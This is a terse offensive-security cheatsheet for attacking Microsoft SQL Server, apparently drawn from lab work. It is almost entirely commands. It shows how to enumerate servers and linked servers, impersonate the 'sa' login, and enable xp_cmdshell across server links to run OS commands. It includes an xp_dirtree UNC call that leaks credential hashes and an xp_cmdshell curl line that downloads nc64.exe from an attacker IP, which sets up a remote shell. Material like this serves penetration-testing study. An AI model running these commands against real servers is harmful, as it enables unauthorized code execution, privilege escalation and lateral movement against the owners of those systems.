 # MSSQL Cheatsheet

PE can use `PowerUpSQL.ps1` in post exp.

## list sqlserver

```powershell
PS C:\mane> sqlcmd -L

Servers:
    ;UID:Login ID=?;PWD:Password=?;Trusted_Connection:Use Integrated Security=?;*APP:AppName=?;*WSID:WorkStation ID=?;


# OR
PS C:\mane> Get-SqlInstance
```

## Query

```powershell
PS C:\mane> sqlcmd -q "SELECT @@version"

# login current user
PS C:\mane> sqlcmd -S

# user and password
PS C:\mane> sqlcmd -S .\SQLEXPRESS -U xxx -P xxx
``

```sql
# List Databases
SELECT name FROM master..sysdatabases;

# List Tables
SELECT name FROM master..sysobjects WHERE xtype = 'U';
```

## Check server link

```
EXEC sp_linkedservers;

select * from openquery("WEB\CLIENTS", 'SELECT name FROM master..sysdatabases;')
```

With `PowerUPSql.ps1`, [CheatSheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet).

```
Get-SQLInstanceLocal -Verbose
```

```
osql -E -S "localhost\SQLEXPRESS" -Q "select * from master..sysservers" 

osql -S xxx -U username -P password -Q "EXECUTE ('master.sys.xp_dirtree ''\\xxxxxxx@80\a''');"
```


## Connect Server link

```
EXECUTE AS LOGIN  = 'sa';

EXECUTE ('SELECT @@servername;') at [SQLSERVER2] ;
```


## Enable xpshell to linking server

```
EXECUTE AS LOGIN  = 'sa';
EXECUTE ('EXEC sp_configure ''Show Advanced Options'', 1') at [SQLSERVER2] ;
EXECUTE ('RECONFIGURE') at [SQLSERVER2] ;
EXECUTE ('EXEC sp_configure ''xp_cmdshell'', 1') at [SQLSERVER2];
EXECUTE ('RECONFIGURE') at [SQLSERVER2] ;
EXECUTE ('EXEC master..xp_cmdshell ''whoami''') at [SQLSERVER2] ;
```

## Using SQLRecon Tools with link

Sometimes SQLRecon.exe have some problem with code execute.

```
.\SQLRecon.exe /a:WinToken /h:127.0.0.1 /l:xxx.xxx.local /m:lXpCmd /c:'command'

```

## osql enable cmdshell with link

```
osql -E -S "<LOCAL_HOSTNAME>" -Q "EXECUTE('sp_configure''xp_cmdshell'',1;RECONFIGURE;') AT [<remote.manesec.local>]"

osql -E -S "<LOCAL_HOSTNAME>" -Q "EXECUTE('xp_cmdshell whoami') AT [<remote.manesec.local>];"
osql -E -S "<LOCAL_HOSTNAME>" -Q "EXECUTE('xp_cmdshell ''mkdir C:\mane''') AT [<remote.manesec.local>];"

```


## Using link and impersonal sa to enable xp_cmd

```
DECLARE @sql NVARCHAR(MAX) = N'EXECUTE AS LOGIN = ''sa''; EXEC sp_configure ''show advanced options'', 1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE; EXEC xp_cmdshell ''cmd /c curl http://10.10.16.25/nc64.exe -o C:\programdata\nc64.exe'';'; EXEC (@sql) AT "PRIMARY";

```


## Impackets

``` bash
select @@version;

enum_logins

use_link [COMPATIBILITY\POO_CONFIG]

# Recon
EXECUTE ('select @@servername;') at [COMPATIBILITY\POO_CONFIG];

EXECUTE ('select suser_name();') at [COMPATIBILITY\POO_CONFIG];

# execute as link
EXECUTE ('SELECT name FROM master..syslogins WHERE sysadmin = ''1'';') at [COMPATIBILITY\POO_CONFIG];

# execute as link on link server
EXEC ('EXEC (''select suser_name();'') at [COMPATIBILITY\POO_PUBLIC]') at [COMPATIBILITY\POO_CONFIG];

# query permission
EXECUTE ('SELECT entity_name, permission_name FROM fn_my_permissions(NULL, ''SERVER'');') at [COMPATIBILITY\POO_CONFIG]

```